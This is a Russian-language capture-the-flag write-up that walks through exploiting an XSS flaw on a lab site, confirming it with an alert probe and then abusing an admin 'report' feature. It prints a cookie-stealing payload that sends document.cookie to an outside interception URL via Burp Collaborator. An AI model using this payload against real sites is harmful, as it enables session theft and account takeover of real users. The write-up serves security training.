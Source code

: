 # The customer is always right writeup
Указанная сложность таска - седний

Цена Таска - 500 

Для начала перидем по указанному нам ип-адресу
>***62.173.140.174: 16013***

И видим такой вот сайт 
![костюм](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/194481c8-f7e4-4522-adfb-52fcd829f0e0)

Функционал не велик. Давайте по порядку. Первое что можно селать - потыкать на ссылки, один нас вид к картинкам
![изображение](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/e5466b30-fb06-4970-8f9e-ca60029b9fe1)

![изображение](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/44b878dd-8f06-40ca-8f33-97f63bb4b44b)

![изображение](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/ae91119d-7281-41bc-a41c-b43d82cda7db)

Интересны картники, наверноэ, но нас так и не кнопка репора, ридом с каждылом.
![изображение](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/0e55828b-d9ad-4d66-811d-0f1e695254f1)

Репорт отправляется непосредственно админу, вспомним описание таска:
>***Какой-то админ ворует наши публикации и выставляет их на свой сайт. Ты ведь не будешь сидеть сложа руки?***

Скорее всего нам нужно получить доступ к админке, но как?
Название таска может подсказать нам, что тут прав клиент. Смотрим что такое XSS уязвимости.

Ну, хоть мы сразу может надеться на XSS уязвимость, было бы неплохо, проверить наши догадки.
введем в посик на сайте такую команду `<script>alert('1')</script>`
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/80d5ac94-a96f-4617-9265-a1c6b7945193)

Отлично! Наши догадки оказались верны, наша цель - перехватить куки. 
Сказать просто, надо делать. Единственное наше общение с админом происходит как раз во время репорта, а значит нам надо поддлеать репорт. 

Напишем пейлоад, который исполнит наш js скрипт, но у админа.

```
search=<script>document.location='http://{{ссылка перехвата}}//?c='%252bencodeURIComponent(document.cookie)</script>
```
Давайте разберу его. Мы используем факт того, что репорт можно отправить через search, значит мы будем искать наш пейлоад. 

Я не говорил про Burp Suite? Возможно самое время, для перехвата нам понадобиться Burp Suite Pro, способ получения не важен.

Если быть точнее, то нам нужна вкладка **Collaborator**
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/c470720f-2fd2-428f-86f8-22e57cf4a09e)

Нажимаем на кномпку **Copy clipboard**, то что мы скопировали вставляем в нам скрипт, я указ место для вставки как *ссылка перехвата*

Полная конечная наша ссылка должна выглядеть так:
```
http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location='http://{{ссылка перехвата}}//?c='%252bencodeURIComponent(document.cookie)</script>
```

Вводим в поисковую строку ииии.... мы ничего не видим, зато это увидел админ. А мы возвращаемся в Burp и нажимаем **pull now**
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/8495a001-6278-48a1-a4a7-0751d4c75f39)

Перехват успешен!

А вот и наш флаг

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/6681068f-6883-4dd9-af6a-69a80136771e)

Конец.
